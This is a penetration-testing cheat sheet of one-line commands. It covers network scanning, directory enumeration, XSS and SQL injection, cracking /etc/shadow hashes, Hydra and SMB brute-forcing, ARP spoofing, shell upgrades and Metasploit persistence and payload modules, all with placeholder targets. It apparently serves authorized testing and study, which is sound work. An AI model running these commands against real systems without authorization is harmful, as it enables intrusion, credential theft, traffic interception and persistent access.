 First rough idea:                 fping -a -g <IPRANGE> 2>/dev/null

Create IP List file:              nmap -sn <RANGE> | grep "Nmap scan" | cut -d " " -f 5 > <FILE>
Detailed scan of hosts:           nmap -sV -n -v -Pn -p- -T4 -iL <FILE> -A --open

Regular Directory enum:           gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u <URL>
Authenticated Directory enum:     dirb <URL> -u <USER>:<PASSWORD>
  
XSS:                              <script>alert('XSS')</script>
                                  <script>alert(document.cookie)</script>
                                  
SQLi:                             sqlmap -u <URL>
  
Win Persistence Metasploit:       exploit/windows/local/s4u_persistence
Generic Persistence Metasploit:   exploit/multi/local/persistence

Linux Hashes:                     /etc/passwd and /etc/shadow
                                  unshadow passwd shadow > hashes.txt
                                  
John Cracking Bruteforce:         john -incremental -users:<USERLIST> <FILE>
              Wordlist:           john -wordlist=<WORDLIST> <FILE>
              Mangling:           john -wordlist=<WORDLIST> -rules <FILE>
  
Bruteforcing with Hydra:          hydra <IP> ssh -L <USERLIST> -P <WORDLIST> -f -V
  
Copy files through SCP:           scp user@<IP>/<DIR>/<FILE> /<LOCAL>/<PATH>
  
SMB Share Basics:                 smbclient -L \\<IP> -N
                                  enum4linux -s /usr/share/enum4linux/share-list.txt <IP>
                                  /usr/share/doc/python3-impacket/examples/samrdump.py <IP>
                                  nmap --script=smb-enum-shares.nse <IP>
                                  nmap --script=smb-check-vulns.nse --script-args=unsafe=1 <IP>
  
SMB Bruteforcing:                 nmap --script=smb-brute.nse <IP>
  
ARPspoof with DSniff:             echo 1 > /proc/sys/net/ipv4/ip_forward
                                  arpspoof -i <INTERFACE> -t <TARGET> -r <HOST>
  
Python Shell Upgrade:             python -c 'import pty; pty.spawn("/bin/bash")'

Shell to Meterpreter:             post/multi/manage/shell_to_meterpreter

MS SQL Authenticated comp:        auxiliary/scanner/mssql/mssql_login
                                  auxiliary/admin/mssql/mssql_enum
                                  exploit/windows/mssql/mssql_payload
                                  
Adding Routes:                    ip route add <IP RANGE> via <GATEWAY IP>
